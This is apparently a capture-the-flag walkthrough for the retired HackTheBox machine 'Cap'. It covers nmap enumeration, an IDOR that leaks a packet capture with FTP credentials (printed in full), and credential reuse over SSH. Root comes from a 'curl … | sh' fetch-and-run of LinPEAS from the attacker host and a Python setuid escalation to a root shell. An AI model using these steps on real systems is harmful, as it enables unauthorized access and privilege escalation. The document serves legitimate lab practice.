

# HackTheBox Retired Machine - Cap (Linux)

## Enumeration
```
nmap -sV -sC -Pn <ip addr>
```

Result:
- 21-FTP (vsftpd 3.0.3)
- 22-SSH (OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0))
- 80-HTTP (gunicorn)


## Manual Web Crawling
- Possible IDOR on Security Snapshot page
	- Possible IDOR path: /data/[number].
	- Possible numbers are: 0,1,2,3,4,5,6.
  - Other numbers will redirect the user back to dashboard screen
  - Any number that has packet analysis content will be downloaded and inspected.
### Packet Analysis
- Packet Analysis on number 1-3 doesn't really contain any useful information
- Packet Analysis on number 0, contains:
	- Info on a user to access FTP (USER: nathan)
	- Info on password of a user to access FTP (Password: Buck3tH4TF0RM3!)


## Accessing FTP
Use the following credential
```
username: nathan
password: Buck3tH4TF0RM3!
```

## Accessing SSH
We can use the same credentials and the flag is on that user home directory called `user.txt`

### Privilege Escalation from SSH
! We need to find a directory that can be exploited to gain higher privilege !
* * *
1. Setting up LinPEAS in local directory
```
curl -L -O https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```
2. Host the local directory that has the LinPEAS
```
sudo python3 -m http.server 80
```
3. From the victim machine, fetch the LinPEAS file without storing it locally
```
curl 10.10.16.41/linpeas.sh | sh
```
4. Let it run\

5. Found the supposed vulnerable files and the capability that can be exploited!


## Exploiting Python 
```
/usr/bin/python3.8
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
```
Result:\


Try to get into the parent directory, outside of the current working directory which is `/home/nathan/`

Root flag will be available at: `/root/root.txt`
